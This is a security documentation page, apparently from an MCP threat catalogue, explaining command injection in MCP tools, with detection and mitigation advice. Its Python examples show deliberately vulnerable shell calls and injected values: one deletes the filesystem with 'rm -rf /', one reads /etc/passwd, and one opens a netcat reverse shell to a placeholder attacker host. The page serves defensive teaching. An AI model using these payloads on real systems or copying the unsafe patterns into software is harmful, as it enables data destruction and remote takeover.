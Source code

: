 ```yaml
---
layout: default
title: "Command Injection"
permalink: /ttps/command-injection/command-injection/
nav_order: 1
parent: "Command & Code Injection"
grand_parent: "MCP Security TTPs"
---
```


# Command Injection

**Category**: Command & Code Injection  
**Severity**: Critical  

## Description

Execution of arbitrary system commands through unsanitized input passed to MCP tools, enabling attackers to execute unauthorized commands on the host system.

## Technical Details

### Attack Vector
- Unsanitized input passed to system commands
- Shell command execution through MCP tools
- Command concatenation vulnerabilities
- Parameter injection in system calls

### Common Techniques
- Shell metacharacter injection
- Command chaining with semicolons
- Pipe-based command injection
- Background process execution

## Impact

- **System Compromise**: Full system access through command execution
- **Data Theft**: Access to sensitive files and data
- **Privilege Escalation**: Execution of commands with elevated privileges
- **Lateral Movement**: Access to network resources and connected systems

## Detection Methods

### System Monitoring
- Monitor system call execution
- Track process spawning
- Detect unusual command patterns
- Analyze command line arguments

### Behavioral Analysis
- Monitor tool execution patterns
- Detect anomalous system interactions
- Track command execution frequency
- Analyze execution context

## Mitigation Strategies

### Input Validation
- Implement strict input sanitization
- Use input validation libraries
- Deploy parameter filtering
- Validate command arguments

### Execution Controls
- Use parameterized command execution
- Implement command allow-lists
- Deploy execution sandboxing
- Restrict system access

## Real-World Examples

### Example 1: Shell Metacharacter Injection
```python
def ping_host(hostname):
    # Vulnerable command execution
    result = os.system(f"ping -c 4 {hostname}")
    
    # Attack: hostname = "google.com; rm -rf /"
    # Executed: ping -c 4 google.com; rm -rf /
```

### Example 2: Command Chaining
```python
def list_files(directory):
    # Vulnerable directory listing
    output = subprocess.check_output(f"ls {directory}", shell=True)
    
    # Attack: directory = "/tmp && cat /etc/passwd"
    # Executed: ls /tmp && cat /etc/passwd
```

### Example 3: Background Process Injection
```python
def backup_file(filename):
    # Vulnerable backup command
    os.system(f"cp {filename} /backup/")
    
    # Attack: filename = "file.txt & nc attacker.com 4444 -e /bin/bash &"
    # Executed: cp file.txt /backup/ & nc attacker.com 4444 -e /bin/bash &
```

## References & Sources

- **Strobes Security** - "MCP and Its Critical Vulnerabilities"
- **Prompt Security** - "Top 10 MCP Security Risks You Need to Know"
- **Red Hat** - "Model Context Protocol (MCP): Understanding security risks and controls"
- **Simon Willison** - "Model Context Protocol has prompt injection security problems"
- **Structured MCP Threats** - Comprehensive threat landscape analysis

## Related TTPs

- [OS Command Injection](os-command-injection.md)
- [Shell Command Execution](shell-command-execution.md)
- [Code Injection](code-injection.md)

---

*Command injection represents one of the most critical vulnerabilities in MCP systems, enabling direct system compromise through arbitrary command execution.*